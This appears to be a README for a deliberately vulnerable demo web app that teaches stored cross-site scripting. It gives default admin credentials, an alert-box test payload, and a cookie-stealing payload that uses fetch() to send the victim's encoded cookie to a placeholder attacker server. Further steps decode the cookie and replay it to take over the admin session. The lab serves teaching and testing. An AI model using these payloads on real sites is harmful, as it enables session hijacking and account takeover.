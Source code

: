 # to run web app
```
./build_run.sh
```

# How to run demo
- Url: http://localhost:PORT_NUMBER
- Open a browser as admin
	- Access Login page and login with username, password (admin, 123456)
- Open a browser as attacker
	- Access xss Page and insert the payload

# payload to testing xss (Expected result  - You will she the pop-up HelloWorld)
```
<img src=hello onerror="alert('Hello World')" />
```

# payload to exploit steal cookie victim and send to the attacker server.

* Step 1: Run a webserver to get the data that is steal from end users (This is http endpoint will 
replace the url_attacker in payload in step 2)
```
python3 -m http.server 8888
```

* Step 2: Replace the url_attacker that get from step 1 for the payload and access like a attacker and post a comment 
```
<img src=hello onerror=fetch(`${url_attacker}?cookie=${btoa(document.cookie)}`) />
```

* Step 3: Admin Browser access the comment page (/xss page)
* Step 4: Check log of server in step 1 to check the payload
* Step 5: Get the result in console and decode to see the victim cookie in plantext
```
echo ${cookie_encoded} | base64 -d
```
* Step 6: In the Attacker Browser, set the cookie with the value that is result in step 5 and you are admin(you hacked the admin permission and do anything)
  - Access Cookies
  - Name: User
  - Value: the value that is result in step 5
  - Path: /
After that you can access the admin page without login


# Notes
- Database will de deleted when you re-created the application(Docker container). Default db_path is /tmp/data.db